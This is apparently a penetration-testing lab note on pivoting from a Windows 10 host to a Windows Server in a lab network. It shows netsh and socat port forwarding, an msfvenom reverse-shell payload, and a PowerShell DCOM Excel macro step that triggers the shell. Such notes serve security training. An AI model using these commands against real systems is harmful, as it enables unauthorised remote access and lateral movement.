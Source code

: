 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

| My Kali IP | Win10 | WinServ |
| ----------- | ----------- |  ----------- |
| 192.168.119.190 | 192.168.190.10 |  172.16.190.5 |

![[rlwrap]]

Win10:

Forward any traffic on Win10:4444 box to Kali:443:
```command prompt - target
netsh interface portproxy add v4tov4 listenport=4444 listenaddress=192.168.190.10 connectport=443 connectaddress=192.168.119.190
```

Setting up firewall rule:
```command prompt - target
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=192.168.190.10 localport=4444 action=allow
```

Setting up socat to forward traffic from port 4444 to kali:443:
```command prompt - target
socat tcp-l:4444,fork,reuseaddr tcp:192.168.119.190:443
```

Generate reverse shell code to execute on the WinServ target:
```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=172.16.190.10 LPORT=4444 -f hta-psh
```

Execute malicious excel file on remote machine for reverse shell to trigger on Kali box.

```powershell - target
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "172.16.190.5"))

$LocalPath = "C:\Users\jeff_admin\Desktop\myexcel.xls"

$RemotePath = "\\172.16.190.5\c$\myexcel.xls"

[System.IO.File]::Copy($LocalPath, $RemotePath, $True)

$Path = "\\172.16.190.5\c$\Windows\sysWOW64\config\systemprofile\Desktop"

$temp = [system.io.directory]::createDirectory($Path)

$Workbook = $com.Workbooks.Open("C:\myexcel.xls")

$com.Run("mymacro")
```
